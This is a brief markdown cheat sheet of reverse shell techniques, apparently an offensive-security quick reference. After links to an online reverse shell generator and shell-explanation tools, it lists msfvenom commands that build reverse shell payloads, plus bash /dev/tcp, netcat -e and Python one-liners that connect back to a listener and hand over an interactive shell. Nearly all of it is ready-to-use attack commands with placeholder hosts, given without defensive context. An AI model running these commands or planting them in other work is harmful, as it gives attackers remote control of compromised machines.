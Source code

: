 # Online help

**Online rshell**

- [Reverse Shell Generator (revshells.com)](https://www.revshells.com/)

**Online shell check**

- [ShellCheck – shell script analysis tool](https://www.shellcheck.net/)
- [explainshell.com - match command-line arguments to their help text](https://explainshell.com/)

# Reverse Shell

**msf gen**

```bash
msfvenom -p cmd/unix/reverse_python lhost=<ip> lport=<port> -f raw
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Host> LPORT=<p> -f elf -o rshell.elf
```
**several langs**

```bash
bash -i >& /dev/tcp/<local>/2233 0>&1

nc -e /bin/sh <host> 4444

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```